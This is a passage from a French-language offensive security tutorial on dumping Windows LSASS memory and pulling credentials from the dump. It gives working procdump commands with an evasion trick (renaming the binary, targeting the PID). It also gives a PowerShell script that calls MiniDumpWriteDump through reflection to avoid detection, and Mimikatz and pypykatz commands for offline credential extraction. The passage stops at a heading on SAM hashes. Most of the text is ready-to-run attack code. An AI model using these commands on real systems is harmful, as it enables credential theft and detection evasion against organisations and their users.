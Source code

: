 Procdump de Sysinternals : Cet outil légitime de Microsoft peut être utilisé pour créer des dumps de processus :

```
procdump.exe -ma lsass.exe lsass.dmp
```

L'option `-ma` capture l'intégralité de l'espace d'adressage du processus. Bien que procdump soit un outil légitime, son utilisation spécifique sur LSASS est souvent détectée. Une technique d'évasion consiste à renommer l'exécutable et à utiliser l'ID de processus plutôt que le nom :

```
renamed-procdump.exe -ma 672 output.dmp
```

PowerShell : Des techniques PowerShell permettent également de créer des dumps de processus :

```powershell
$process = Get-Process lsass
$dumpfile = "C:\Windows\Temp\memory.dmp"
$WER = [PSObject].Assembly.GetType('System.Management.Automation.WindowsErrorReporting')
$WERNativeMethods = $WER.GetNestedType('NativeMethods', 'NonPublic')
$flags = [Reflection.BindingFlags] 'NonPublic, Static'
$MiniDumpWriteDump = $WERNativeMethods.GetMethod('MiniDumpWriteDump', $flags)
$processHandle = $process.Handle
$processPid = $process.Id
$dumpFileStream = New-Object IO.FileStream($dumpfile, [IO.FileMode]::Create)
$result = $MiniDumpWriteDump.Invoke($null, @($processHandle, $processPid, $dumpFileStream.SafeFileHandle, 0x00000002, [IntPtr]::Zero, [IntPtr]::Zero, [IntPtr]::Zero))
$dumpFileStream.Close()
```

Ce script utilise l'API MiniDumpWriteDump via réflexion, ce qui peut parfois échapper à la détection basée sur les appels API directs.

#### Analyse du dump LSASS hors ligne

Une fois le dump LSASS obtenu, il peut être transféré sur la machine de l'attaquant pour analyse. Plusieurs outils permettent d'extraire les credentials d'un dump LSASS :

Mimikatz peut analyser un dump LSASS avec la commande :

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

PyKatz, une implémentation Python de certaines fonctionnalités de Mimikatz, peut également analyser des dumps LSASS :

```
python pypykatz.py lsa minidump lsass.dmp
```

L'avantage de cette approche est qu'elle limite l'exposition d'outils offensifs sur la cible et réduit les risques de détection en temps réel.

### Extraction des hachages SAM
